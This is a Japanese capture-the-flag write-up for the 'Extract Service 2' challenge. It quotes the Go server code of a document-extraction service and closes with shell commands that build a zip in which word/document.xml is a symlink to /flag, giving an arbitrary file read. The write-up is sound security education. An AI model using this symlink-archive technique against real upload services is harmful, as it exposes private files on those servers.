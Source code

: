 # Extract Service 2

Extract Service 1の脆弱な部分にパッチがあたったようです。

```go
		// patched
		extractTarget := ""
		targetParam := c.PostForm("target")
		if targetParam == "" {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : target is required",
			})
			return
		}
		if targetParam == "docx" {
			extractTarget = "word/document.xml"
		} else if targetParam == "xlsx" {
			extractTarget = "xl/sharedStrings.xml"
		} else if targetParam == "pptx" {
			extractTarget = "ppt/slides/slide1.xml"
		} else {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : target is invalid",
			})
			return
		}
```

flagの位置は相変わらず変わっていません。

patchのせいで、targetパラメータに対してのDirectory Traversalが行えなくなりました。

処理の流れを今一度見ていきます。

*main.go*
```go
	r.POST("/", func(c *gin.Context) {
		baseDir := filepath.Join("/tmp", uuid.NewString()) // ex. /tmp/02050a65-8ae8-4b50-87ea-87b3483aab1e
		zipPath := baseDir + ".zip"                        // ex. /tmp/02050a65-8ae8-4b50-87ea-87b3483aab1e.zip

		file, err := c.FormFile("file")
		if err != nil {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : " + err.Error(),
			})
			return
		}

		// patched
		extractTarget := ""
		targetParam := c.PostForm("target")
		if targetParam == "" {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : target is required",
			})
			return
		}
		if targetParam == "docx" {
			extractTarget = "word/document.xml"
		} else if targetParam == "xlsx" {
			extractTarget = "xl/sharedStrings.xml"
		} else if targetParam == "pptx" {
			extractTarget = "ppt/slides/slide1.xml"
		} else {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : target is invalid",
			})
			return
		}

		if err := os.MkdirAll(baseDir, 0777); err != nil {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : " + err.Error(),
			})
			return
		}

		if err := c.SaveUploadedFile(file, zipPath); err != nil {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : " + err.Error(),
			})
			return
		}

		if err := ExtractFile(zipPath, baseDir); err != nil {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : " + err.Error(),
			})
			return
		}

		result, err := ExtractContent(baseDir, extractTarget)
		if err != nil {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : " + err.Error(),
			})
			return
		}

		c.HTML(http.StatusOK, "index.html", gin.H{
			"result": result,
		})
	})

	if err := r.Run(":8080"); err != nil {
		panic(err)
	}
}
```

baseDir (`/tmp/{:uuid}`)を作成します。

fileの中身を、zipPath (`/tmp/{:uuid}.zip`)として、作成します。

次に、Extractfile()を呼びます。これは内部で`unzip zipPath -d baseDir`を行います。

つまり、zipPathの中身をbaseDireに解答します。

次に、ExtractContentです。

baseDir (/tmp/{:uuid}/word/document.xml)を読みに行きます。(targetParam == "docs"の場合)

読んだ結果を返却する感じです。

サーバ内で解答されるzipをアップロードできる場合、シンボリックリンクを使って、リンクされたファイルにアクセスができるらしいです。

今回は/tmp/{:uuid}にアップロードしたファイルが作られるような感覚なので、zipを解凍したらword/document.xmlが作られ、`word/document.xml`が、/flagへのシンボリックリンクとしていれば良さそう。

```bash
# 悪意のあるzipを作成
docker run -it --name instance ubuntu:latest bash
apt update && apt upgrade -y && apt install -y zip
mkdir word
touch /flag
ln -s /flag word/document.xml
zip --symlinks -r test.zip word
docker cp instance:/test.zip .
```

test.zipをアップロードすれば良さそうです。
